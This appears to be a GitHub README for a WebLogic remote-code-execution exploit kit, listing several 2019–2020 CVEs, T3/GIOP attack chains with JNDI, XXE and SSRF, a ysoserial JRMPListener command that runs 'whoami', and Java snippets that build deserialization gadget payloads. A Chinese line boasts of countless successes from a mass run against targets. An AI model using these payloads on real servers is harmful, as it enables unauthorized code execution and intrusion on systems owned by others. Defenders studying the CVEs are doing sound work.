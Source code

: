 Twitter: [@Hktalent3135773](https://twitter.com/Hktalent3135773)
[![Tweet](https://img.shields.io/twitter/url/http/Hktalent3135773.svg?style=social)](https://twitter.com/intent/tweet?original_referer=https%3A%2F%2Fdeveloper.twitter.com%2Fen%2Fdocs%2Ftwitter-for-websites%2Ftweet-button%2Foverview&ref_src=twsrc%5Etfw&text=myhktools%20-%20Automated%20Pentest%20Recon%20Scanner%20%40Hktalent3135773&tw_p=tweetbutton&url=https%3A%2F%2Fgithub.com%2Fhktalent%2Fmyhktools)
[![Follow on Twitter](https://img.shields.io/twitter/follow/Hktalent3135773.svg?style=social&label=Follow)](https://twitter.com/intent/follow?screen_name=Hktalent3135773)

# 1、Weblogic RCE exploit
CVE_2020_2546 CVE-2020-2915 CVE-2020-2801  CVE-2020-2798  CVE-2020-2883 CVE-2020-2884 CVE-2020-2950 WebLogic RCE T3 payload exploit poc python3

# 2、exploit
- GIOP + send bind (CVE-2020-2555、CVE-2019-2888<XXE>、CVE-2019-2888<XXE+SSRF> or others)
- GIOP + send jta (rmi or others)
- GIOP + send jta + SSRF
- T3 + send jta
- T3 + send jta + SSRF
- T3 + send XXE
- T3 + send XXE + SSRF

#### 2.1、rmi server,see
- don't use org.mozilla.classfile.DefiningClassLoader
- don't use java -cp $mtx/../tools/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 Jdk7u21 'whoami'
more see:
https://github.com/hktalent/CVE-2020-2551

# 3、code
### 3.1、code n1
```
MVEL.compileExpression
MvelExtractor o = new MvelExtractor("xxx;");
		ObjectOutputStream oo = new ObjectOutputStream(System.out); 
		oo.writeObject(o);
		oo.flush();
```

### 3.2、code1
```
public MsgOutput getObject(final String command) throws Exception {
	  String jndiAddress = command;
		JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
		jtaTransactionManager.setUserTransactionName(jndiAddress);
		MsgOutput remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", jtaTransactionManager), MsgOutput.class);
    return remote;
  }
```

### 3.3、code2
```
public IORDelegate getObject(final String command) throws Exception {
IORDelegate ior = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", new Jdk7u21().getObject("whoami")), IORDelegate.class);
    return ior;
  }
```

# 4、CVE-2020-2546 payload
#### 批量一波，成功无数
<img width="621" alt="image" src="https://user-images.githubusercontent.com/18223385/75693161-8c550300-5ce1-11ea-9c28-3e81a6c72d28.png">


# 5、thanks for
@[r4v3zn](https://github.com/r4v3zn)
@[0nise](https://github.com/0nise)
